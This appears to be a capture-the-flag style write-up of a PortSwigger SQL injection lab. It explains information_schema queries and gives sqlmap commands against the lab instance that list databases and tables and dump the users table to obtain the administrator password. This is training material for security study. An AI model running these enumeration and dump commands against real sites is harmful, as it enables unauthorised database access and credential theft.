




# SQL injection attack, listing the database contents on non-Oracle databases

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## Definition
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query information_schema.tables to list the tables in the database:
SELECT * FROM information_schema.tables

This returns output like the following:

```bash
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

This returns output like the following:
```bash
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

This output shows the columns in the specified table and the data type of each column. 

## Notes
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

**DATABASE RECON**

- Which database is running on the backend?
```bash
python3 sqlmap.py -u "https://0a9500c003e7e638c0185c7c00e40059.web-security-academy.net/filter?category=Gifts" --dbs
```
  


- Which is the user's table?
```bash
python3 sqlmap.py -u "https://0a9500c003e7e638c0185c7c00e40059.web-security-academy.net/filter?category=Gifts" --tables -D public
```
  


- What is the admin password?
```bash
python3 sqlmap.py -u "https://0a9500c003e7e638c0185c7c00e40059.web-security-academy.net/filter?category=Gifts" --dump -T users_zffmub
```
  


**PRIVILEGED ACCESS**

The image below shows the `My Account` page after a successfully login as administrator.
  



## Key Words
> sql injection, system databases, system tables, dump, sqlmap